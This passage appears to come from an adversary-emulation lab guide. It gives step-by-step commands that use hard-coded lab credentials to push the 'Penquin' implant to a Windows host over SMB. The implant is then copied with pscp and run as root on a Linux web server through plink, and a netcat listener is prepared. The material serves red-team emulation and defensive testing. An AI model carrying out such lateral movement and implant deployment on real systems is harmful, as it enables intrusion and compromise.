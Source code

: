 
### ☣️ Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
Penquin and pscp.exe to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put hsperfdata.zip Windows\Temp\tmp504e.tmp'
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put pscp.exe Windows\System32\pscp.exe'
```

:arrow_right: Switch to your RDP session to `khabibulin (10.20.20.104)`
or, if one was not opened from a previous step, open a new RDP session to
`khabibulin (10.20.20.104)` as `adalwolfa`:

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

* Open File Explorer and browse to `C:\Windows\System32`

* Open an elevated Windows Command Prompt (if no existing admin prompt from a
previous step)

* Use the elevated Windows Command Prompt to copy Penquin to the Apache web
server using Adalwolfa's credentials.

```bash
echo y | C:\Windows\System32\pscp.exe -pw Password2! C:\Windows\Temp\tmp504e.tmp adalwolfa@10.20.10.23:/tmp/tmp514f524f
```

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
plink.exe to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put plink.exe Windows\System32\plink.exe'
```

:arrow_right: Return to your RDP session to `khabibulin (10.20.20.104)` as
`adalwolfa`.

* Return to the File Explorer window in System32.

* Return to the elevated Windows Command Prompt to execute Penquin (Penquin
takes ~8 seconds to execute).

```bash
(echo unzip /tmp/tmp514f524f -d /tmp & echo sudo mv /tmp/hsperfdata /root/hsperfdata & echo sudo /root/hsperfdata & echo exit) | C:\Windows\System32\plink.exe -ssh -l adalwolfa -pw Password2! 10.20.10.23
```

* Wait for the command to return.

* :arrow_right: From your Kali Linux machine, open a new terminal tab using Ctrl+Shift+T. Rename the new tab to `Penquin NC`
